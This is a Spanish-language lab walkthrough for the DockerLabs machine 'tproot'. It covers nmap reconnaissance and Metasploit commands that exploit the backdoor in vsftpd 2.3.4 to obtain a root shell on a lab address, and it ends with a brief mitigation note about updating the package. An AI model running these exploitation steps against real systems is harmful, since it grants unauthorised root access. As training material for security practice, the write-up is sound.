





# Resolución de maquina DockerLabs: tproot

## Información general.

* Plataforma: DockerLabs

* Objetivo: Explotar el servicio vsftpd 2.3.4 para ganar acceso root.

---

## Reconocimiento

Revisamos si existe conexion con la victima y una vez confirmada realizamos un escaneo para detectar los servicios abiertos.

```bash
ping 10.88.0.3
nmap -sC sV 10.88.0.3
```



Con ello detectamos que se encuentra abierto el puerto 21 y se encuentra corriendo el servicio vsftp 2.3.4, el cual fue muy conocido debido a que un atacante ingreso al servidor oficial para suplantar el paquete oficial por uno maligno que incluye un backdoor.

---

## Enumeración

Revisamos si existe un exploit para dicha version dentro de la consola de Metasploit.

```bash
search vsftp 2.3.4
```



---

## Explotación

Una vez confirmado que tenemos el exploit procedemos a correrlo para explotar la vulnerabilidad.

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.88.0.3
run
```



Ya explotada la vulnerabilidad vemos que ganamos acceso a la shell.



Procedemos a validar los accesos confirmando que tenemos privilegios de root y directorio de trabajo actual.



---

## Mitigación

Para este caso en espefico solo basta con actualizar el paquete afectado puesto que no se inyectan payloads ni malware para la explotacion.
